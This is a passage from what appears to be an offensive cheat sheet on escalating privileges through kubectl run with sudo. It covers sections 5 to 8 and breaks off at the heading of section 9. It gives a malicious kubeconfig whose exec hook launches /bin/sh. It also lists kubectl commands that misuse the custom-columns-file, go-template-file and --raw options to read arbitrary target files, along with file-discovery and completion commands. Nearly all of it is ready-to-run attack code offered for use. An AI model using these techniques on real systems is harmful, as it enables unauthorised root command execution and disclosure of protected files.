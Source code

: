 
## 5. Configuration Exploitation

```yaml
# Malicious kubeconfig with exec
apiVersion: v1
kind: Config
users:
- name: user
  user:
    exec:
      command: /bin/sh
      args: ["-c","id"]
      apiVersion: client.authentication.k8s.io/v1beta1
```

```bash
sudo kubectl --kubeconfig=config.yaml version
```

---

## 6. Output Format Abuse

```bash
sudo kubectl get -o custom-columns-file=TARGET pods
sudo kubectl get --raw TARGET
sudo kubectl get -o go-template-file=TARGET resource
```

---

## 7. File Discovery

```bash
df
find /writable -type l
ls -la /accessible/

wget -qO- http://localhost:PORT/prefix/path/
```

---

## 8. Completion System Abuse

```bash
sudo kubectl completion bash > /tmp/comp
sudo kubectl plugin list
```

---

## 9. Error-Based Information Disclosure
